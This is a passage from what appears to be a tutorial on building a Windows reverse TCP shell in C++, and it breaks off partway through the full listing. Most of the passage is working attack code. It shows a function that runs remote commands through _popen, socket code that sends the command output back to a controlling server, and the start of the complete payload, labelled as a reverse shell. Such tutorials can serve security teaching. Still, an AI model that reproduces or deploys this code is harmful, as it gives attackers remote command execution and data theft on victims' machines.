 ```cpp
		{
			result += buffer;
		}
	}

	// Close the pipe and return the result
	_pclose(pipe);
	return result;

}
```

Now we send back the output to the server:

```cpp
// Use the run_cmd function to run the shell command
std::string cmd_res = run_cmd(buffer.data());

// Convert the message length from host order to network order
msg_len = htonl(cmd_res.size());

// Convert the integer into its byte representation, then send it, this is essentially struct.pack()
send(sock, reinterpret_cast<char*>(&msg_len), sizeof(int), 4);

// Send the output of the command
send(sock, cmd_res.c_str(), cmd_res.size(), 0);
```

The entire payload looks like this:

```cpp
// Simple Reverse TCP Shell

#include <stdlib.h>
#include <winsock2.h>
#include <ws2tcpip.h>
#include <string>
#include <vector>
#include <iostream>

#pragma comment(lib, "Ws2_32.lib")

std::string run_cmd(std::string command)
{

	// Run the command

	char buffer[128];
	std::string result = "";

	FILE* pipe = _popen(command.c_str(), "r");
	if (!pipe)
	{
		return "popen failed.";
	}

	while (!feof(pipe))
	{
		if (fgets(buffer, 128, pipe) != NULL)
		{
			result += buffer;
		}
	}

```